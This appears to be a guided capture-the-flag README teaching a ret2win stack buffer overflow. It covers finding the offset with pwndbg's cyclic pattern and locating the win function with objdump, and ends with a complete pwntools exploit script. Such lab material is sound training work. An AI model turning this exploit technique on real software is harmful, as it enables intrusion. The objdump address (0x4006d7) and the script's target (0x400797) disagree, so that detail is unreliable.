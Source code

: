 # Challenge Name
kidr2w

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, 
1. `enlightenment` function has a vulnerable `gets` function.
2. `hiddenBlessing` function contains the flag.

We want to perform ret2win in this case.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `hiddenBlessing` address

#### To find the offset needed:
1. use `cyclic 200` in pwndbg (this generates the de bruijn sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `raaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l raaaaaaa
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

#### To find the win address:
```shell
$> objdump -d chall | grep hiddenBlessing
00000000004006d7 <hiddenBlessing>:
...
```

#### How do we place inputs for the options then?
You can do the following so that it sends what you want after the binary output:
```python
input = b"abc\n"
p.sendafter("binary output", input)
```

With that knowledge, we can put our solve script together!

#### Final Solution
```python
from pwn import *

# local solve
p = process("./chall")

# remote
# p = remote("IP", PORT)

# hiddenBlessing function
win = p64(0x400797) + b'\n'

# Choose option first to enlightenment function
p.sendlineafter("purpose: \n", b'2')

# send payload after sendting option
payload = b'A' * 136  
payload += win        
p.sendafter("know? \n", payload)

p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. which part of the code has a vulnerable C function?
2. check out sendafter: https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679

## Attached Files
- chall.c
- chall

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win
- https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679
- https://docs.pwntools.com/en/dev/tubes.html


## Flag
TBD